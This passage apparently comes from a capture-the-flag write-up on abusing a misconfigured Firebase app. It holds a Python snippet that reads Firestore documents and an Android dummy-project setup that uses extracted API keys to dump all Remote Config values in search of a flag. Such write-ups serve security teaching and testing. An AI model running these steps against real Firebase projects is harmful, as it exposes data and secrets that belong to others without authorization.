 ```python
            fields = doc.get('fields', {})
            print(f"\n=== Document: {doc['name'].split('/')[-1]} ===")
            
            for field_name, field_data in fields.items():
                value = field_data.get('stringValue', '')
                print(f"{field_name}: {value}")
                
                # Check for flag
                if 'CTF{' in value:
                    print(f"\n🏆 FLAG FOUND: {value}")
    
    else:
        print(f"Error: {response.status_code} - {response.text}")
        
except Exception as e:
    print(f"Error accessing Firestore: {e}")
```

#### Method 2: Using Android Dummy Project

1. **Create New Android Project**:
   ```bash
   # Create minimal Android project structure
   mkdir firebase_exploit && cd firebase_exploit
   ```

2. **Configure Firebase**:
   ```xml
   <!-- res/values/strings.xml -->
   <resources>
       <string name="google_app_id" translatable="false">EXTRACTED_APP_ID</string>
       <string name="project_id" translatable="false">EXTRACTED_PROJECT_ID</string>
       <string name="google_api_key" translatable="false">EXTRACTED_API_KEY</string>
       <string name="gcm_defaultSenderId" translatable="false">EXTRACTED_SENDER_ID</string>
   </resources>
   ```

3. **Add Firebase Remote Config Code**:
   ```kotlin
   // MainActivity.kt
   import com.google.firebase.FirebaseApp
   import com.google.firebase.remoteconfig.FirebaseRemoteConfig
   
   class MainActivity : AppCompatActivity() {
       override fun onCreate(savedInstanceState: Bundle?) {
           super.onCreate(savedInstanceState)
           
           // Initialize Firebase
           FirebaseApp.initializeApp(this)
           
           // Get Remote Config instance
           val remoteConfig = FirebaseRemoteConfig.getInstance()
           
           // Fetch and activate
           remoteConfig.fetchAndActivate()
               .addOnCompleteListener { task ->
                   if (task.isSuccessful) {
                       // Log all Remote Config values
                       val allValues = remoteConfig.all
                       for ((key, value) in allValues) {
                           Log.d("RemoteConfig", "$key: ${value.asString()}")
                           
                           // Look for the flag
                           if (key.contains("admin") && value.asString().contains("CTF{")) {
                               Log.i("FLAG", "Found flag: ${value.asString()}")
   ```